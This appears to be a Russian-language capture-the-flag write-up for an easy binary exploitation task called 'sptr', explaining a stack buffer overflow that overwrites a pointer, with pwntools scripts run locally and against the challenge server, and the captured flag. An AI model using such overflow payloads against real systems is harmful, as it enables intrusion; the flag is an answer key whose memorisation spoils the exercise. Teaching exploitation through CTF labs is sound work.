 # Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: sptr
# Сложность: Easy

В данном блоке предложены задачи на перетирание адресов. Перетирание адреса и изменения поведения программ является одним из ключевых навыков на любом CTF. В данных задачах важно понимать суть атаки, поэтому на небольших задачах листниг полностью в ассемблере больше разбирать не будем. Начнем решение: <br />
![image](https://github.com/user-attachments/assets/d382dd4b-817d-4dc3-a60d-ba50a2bd6b16)

Изначально указатель содержит адрес указывающий на строку `NO WIN`. Наша задача его перезаписать. Для того, чтобы его перезаписать нам необходимо переполнить статический
массив `auStack_18`, а рядом, написать новый адрес (естественно в little endian). Найдем адрес, указывающий на строку `WIN`. Обратим внимание на данный код: <br />

![image](https://github.com/user-attachments/assets/6c95d6e3-22c6-464e-9063-f1164cc14087)

Здесь используется функция `strcmp`, которая сравнивает две строки. Регистр `RDI` кладется первый аргумент, который представляет из себя строчку `NO WIN`. В регистр `RSI` пойдет второй аргумент, который адресом указывающий на строчку `WIN`. Нажмем на `DAT_00402058` и узнаем адрес: <br />

![image](https://github.com/user-attachments/assets/bdc1b672-2b91-4d87-9ff9-1ef5bbf7bc38)

Напишем скрипт, который отправит наш ввод. Сначала получим локальный флаг, а затем настоящий: 

```py
p = process('./sptr')
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()

```
![image](https://github.com/user-attachments/assets/bdec7ead-e676-4f20-acac-fc21bc677591) <br />

Получилось, а значит можем запустить программу на сервере:

```py
from pwn import * 

p = remote('109.233.56.90', 11600)
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```

![image](https://github.com/user-attachments/assets/c86f4aa4-1813-4dd4-9966-ca2ec9cc49c4) <br />

Ответ: `spbctf{b0e0b0cedc622b2396e0069cd5a5f568}`
